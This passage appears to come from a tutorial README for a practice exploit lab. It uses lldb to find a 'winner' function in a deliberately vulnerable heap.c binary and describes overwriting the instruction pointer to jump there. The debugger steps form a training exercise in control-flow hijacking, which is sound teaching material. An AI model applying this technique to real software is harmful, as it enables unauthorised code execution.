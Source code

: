 ```
(lldb) po (char *) $arg2
"00001111222233334444"
```
#### Find Target
```
(lldb) image list -b
[  0] c_playground_exploits

(lldb) image dump symtab -m c_playground_exploits
If you don't limit the dump, you will be overwhelmed.

Index   UserID DSX Type            File Address/Value Load Address       Size               Flags      Name
------- ------ --- --------------- ------------------ ------------------ ------------------ ---------- ----------------------------------
[    0]      0 D   SourceFile      0x0000000000000000                    Sibling -> [    4] 0x00640000 /.../heap.c
[    1]      2 D   ObjectFile      0x000000005d49582d                    0x0000000000000000 0x00660001 /var/folders/rb/kt2sv6k91fq5qkt4m8vjjnb80000gn/T/heap-d43f09.o
[    2]      4 D X Code            0x0000000100000e40 0x0000000100000e40 0x0000000000000030 0x000f0000 winner
[    3]      8 D X Code            0x0000000100000e70 0x0000000100000e70 0x00000000000000bb 0x000f0000 main
[    4]     12   X Absolute        0x0000000100000000                    0x0000000000000000 0x00030010 _mh_execute_header
[    5]     15     Trampoline      0x0000000100000f2c 0x0000000100000f2c 0x0000000000000006 0x00010100 malloc
[    6]     16     Trampoline      0x0000000100000f32 0x0000000100000f32 0x0000000000000006 0x00010100 printf
[    7]     17     Trampoline      0x0000000100000f38 0x0000000100000f38 0x0000000000000006 0x00010100 strcpy
[    8]     18     Trampoline      0x0000000100000f3e 0x0000000100000f3e 0x0000000000000006 0x00010100 time
[    9]     19   X Undefined       0x0000000000000000                    0x0000000000000000 0x00010100 dyld_stub_binder
```
The slicker way..
```
(lldb) image lookup -rn winner
1 match found in /app_binaries/hitme:
        Address: hitme[0x0000000100000e40] (hitme.__TEXT.__text + 0)
        Summary: hitme`winner at heap.c:15      // you only get this line when the -g (debug symbols) was specified when you compiled
```
#### Not an overflow but the same idea!
To prove the end goal let's quickly show how we get to the `winner` function and the success message:
```
and we have a winner @ 1565097438
```
We are trying to divert the Code.  Instead of calling `printf` with `"and that's a wrap folks!\n"` we want to overwrite the `RIP = Instruction Pointer` with the address of `winner = 0x0000000100000e40`.
```
(lldb) breakpoint set --name 'printf'
(lldb) settings set target.run-args "AAAA" "0000"
(lldb) r
(lldb) register read
// at this point you will see
rip = 140734727913156
```
What is that value?
```
(lldb) po $rip
```

  [295b9bea]: https://www.youtube.com/watch?v=TfJrU95q1J4&t=339s "video"
  [0]: "AAAA"
  [0]: "AAAABBBBCCCCDDDDEEEEFFFFP"
  [1]: "0"